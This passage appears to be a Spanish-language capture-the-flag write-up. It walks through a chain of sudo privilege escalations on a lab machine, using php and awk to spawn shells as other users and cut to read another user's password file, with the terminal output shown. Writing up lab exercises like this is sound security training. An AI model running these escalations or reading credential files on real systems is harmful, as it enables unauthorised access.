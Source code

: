 Vemos **php** con permisos SUDO  :

   ```bash
   
bobby@061875d85d75:/home/freddy$ sudo -u gladys php -r "system('/bin/sh');"

```

YA ESTAMOS COMO GLADYS.

Vemos si el usuario tiene permisos SUDO:
   ```bash
gladys@2a0b1be0bb8e:/home/freddy$ sudo -l
Matching Defaults entries for gladys on 2a0b1be0bb8e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 2a0b1be0bb8e:
    (chocolatito) NOPASSWD: /usr/bin/cut

```

Vemos **cut** con permisos SUDO  :

   ```bash
   
gladys@2a0b1be0bb8e:/$ find / -user chocolatito 2>/dev/null
/home/chocolatito
/opt/chocolatitocontraseña.txt
gladys@2a0b1be0bb8e:/$ sudo -u chocolatito cut -d "" -f1  /opt/chocolatitocontraseña.txt 
chocolatitopassword


```

YA ESTAMOS COMO CHOCOLATITO.

Vemos si el usuario tiene permisos SUDO:
   ```bash
chocolatito@2a0b1be0bb8e:/home$ sudo -l
Matching Defaults entries for chocolatito on 2a0b1be0bb8e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User chocolatito may run the following commands on 2a0b1be0bb8e:
    (theboss) NOPASSWD: /usr/bin/awk
    
```

Vemos **awk** con permisos SUDO  :

   ```bash
   
chocolatito@2a0b1be0bb8e:/home$ 

    sudo -u theboss awk 'BEGIN {system("/bin/sh")}'



```
